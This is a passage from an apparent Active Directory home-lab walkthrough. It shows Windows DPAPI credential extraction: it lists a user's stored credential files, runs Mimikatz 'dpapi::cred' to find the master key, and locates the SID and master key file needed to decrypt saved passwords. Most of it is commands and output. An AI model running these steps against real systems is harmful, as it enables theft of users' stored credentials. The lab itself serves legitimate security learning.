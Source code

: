 ```shell
(singhx) > ls C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials

Name                                                                                               Length  CreationTimeUtc        LastAccessTimeUtc     LastWriteTimeUtc

----                                                                                               ------  ---------------        -----------------     ----------------

C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5  396     7/26/2023 2:21:43 PM   7/26/2023 2:22:51 PM  7/26/2023 2:21:43 PM

C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D  11020   7/12/2023 10:27:25 PM  7/26/2023 2:22:51 PM  7/12/2023 10:27:25 PM
```
- Next, we will navigate to the Task tab and by using Mimikatz we will insert the cmd `"dpapi::cred /in:<pathtocred>`

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/fc4285ba-e39a-41db-ac28-348064a1b305)

- This will result in Master Key which is used to decrypt credentials.

```shell
(singhx) > Mimikatz /command:"\"dpapi::cred /in:C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5\""

  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {3b69a6a1-59a6-4645-8bab-092659a589a9}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data
```
- Next is to look for SID, by using the path below we can get the SID.

```shell
(singhx) > ls C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect

Name                                                                                                        Length  CreationTimeUtc        LastAccessTimeUtc     LastWriteTimeUtc

----                                                                                                        ------  ---------------        -----------------     ----------------

C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-743690612-71349104-3832511162-1113  0       7/12/2023 10:27:07 PM  7/26/2023 2:03:10 PM  7/12/2023 10:27:09 PM
```
- On listing the content of the directory we will get uid by which we can crack the encrypted passwords.

```shell
(singhx) > ls C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-743690612-71349104-3832511162-1113

Name                                                                                                                                             Length  CreationTimeUtc        LastAccessTimeUtc      LastWriteTimeUtc

----                                                                                                                                             ------  ---------------        -----------------      ----------------

C:\users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-743690612-71349104-3832511162-1113\3b69a6a1-59a6-4645-8bab-092659a589a9  740     7/12/2023 10:27:09 PM  7/26/2023 2:03:10 PM   7/12/2023 10:27:09 PM
```